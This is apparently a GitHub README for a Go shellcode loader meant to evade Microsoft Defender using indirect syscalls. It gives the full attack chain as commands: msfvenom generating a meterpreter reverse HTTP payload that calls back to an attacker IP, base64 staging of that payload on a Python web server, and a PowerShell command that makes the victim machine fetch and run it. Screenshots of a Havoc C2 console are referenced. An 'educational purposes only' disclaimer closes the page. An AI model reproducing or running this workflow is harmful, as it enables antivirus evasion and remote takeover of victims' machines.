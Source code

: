 # Overview
A simple golang loader that bypass Defender.

It uses [acheron](https://github.com/f1zm0/acheron) to make some indirect syscalls.
> I am currently working on improving this project and enhancing my skills in offensive Go. Any feedback is welcome!

### Compiling

```bash
go build -ldflags="-s -w" loader.go
```

### Usage

Generate the shellcode to execute, I usually use Havoc but it works with anyone:

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=YOUR_IP LPORT=8080 -f raw -o shellcode.bin
base64 -w0 shellcode.bin > shellcode.enc
```
or using Havoc C2:

![Havoc Shellcode Generator](https://i.imgur.com/iaNxbKi.png)
```bash
base64 -w0 shellcode.bin > shellcode.enc
```

There are several ways to create HTTP servers, I will use this one in the directory with the shellcode.enc:
```bash
python3 -m http.server 80
```
From the attacked machine run the following command:
```powershell
.\loader.exe -url http://<YOUR_IP>/shellcode.enc
```
![Shellcode Executed](https://i.imgur.com/XeUIL6C.png)

![msfvenom shellcode executed](https://i.imgur.com/2LMnHgQ.png)

![Havoc console](https://i.imgur.com/sk72waR.png)


> [!WARNING]
> This project is for educational purposes only. Do not run it on machines you do not own or have explicit permission to test.

